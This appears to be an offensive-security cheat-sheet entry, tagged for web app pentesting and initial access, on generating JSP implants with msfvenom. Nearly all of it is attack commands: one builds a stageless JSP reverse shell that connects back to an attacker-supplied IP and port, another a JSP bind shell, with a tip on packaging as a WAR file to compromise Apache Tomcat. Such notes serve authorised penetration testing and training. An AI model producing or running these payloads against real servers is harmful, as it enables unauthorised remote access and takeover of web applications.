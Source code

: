 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - cross-platform
  - metasploit-framework
---
```

# JSP

> [!INFO]
> You can specify `war` format in `msfvenom` to generate implants (`implant.war`) against **Apache Tomcat**.

## Reverse Shells

### Generate via `msfvenom`

Stageless reverse shell.

```
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jsp
```

## Bind Shells

### Generate via `msfvenom`

Stageless bind shell.

```
$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o implant.jsp
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Cross Platform/Code Execution/Java]]